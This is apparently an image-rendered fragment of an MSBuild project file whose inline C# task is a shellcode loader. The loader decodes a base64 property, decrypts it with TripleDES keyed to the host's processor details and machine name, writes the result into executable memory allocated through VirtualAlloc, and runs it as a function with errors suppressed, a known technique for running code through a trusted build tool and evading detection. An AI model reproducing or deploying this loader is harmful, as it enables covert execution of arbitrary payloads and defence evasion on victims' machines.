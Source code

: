 ```xml
    {
        get
        {
            return _DataProject;
        }
        set
        {
            _DataProject = value;
        }
    }
    [DllImport("kernel32", EntryPoint = "VirtualAlloc")]
    private static extern IntPtr Alloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
    delegate void MyFunction();
    [HandleProcessCorruptedStateExceptions]
    public override bool Execute()
    {
        var inputArray = Convert.FromBase64String(DataProject);
        var key = Environment.ProcessorCount + Environment.GetEnvironmentVariable("PROCESSOR_ARCHITECTURE") + Environment.GetEnvironmentVariable("PROCESSOR_LEVEL") + Environment.MachineName;
        TripleDESCryptoServiceProvider tripleDES = new TripleDESCryptoServiceProvider();
        var keyBytes = Encoding.UTF8.GetBytes(key);
        using(var md5 = MD5.Create())
        {
            tripleDES.Key = md5.ComputeHash(keyBytes);
        }
        tripleDES.Mode = CipherMode.ECB;
        tripleDES.Padding = PaddingMode.PKCS7;
        var cTransform = tripleDES.CreateDecryptor();
        var resultArray = cTransform.TransformFinalBlock(inputArray, 0, inputArray.Length);
        tripleDES.Clear();
        var funcAddr = Alloc(IntPtr.Zero, (UInt32)resultArray.Length, 0x1000, 0x40);
        Marshal.Copy(resultArray, 0, funcAddr, resultArray.Length);
        var myFunction = (MyFunction)Marshal.GetDelegateForFunctionPointer(funcAddr, typeof(MyFunction));
        try
        {
            myFunction();
        }
        catch { }
        return true;
    }
}

				]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

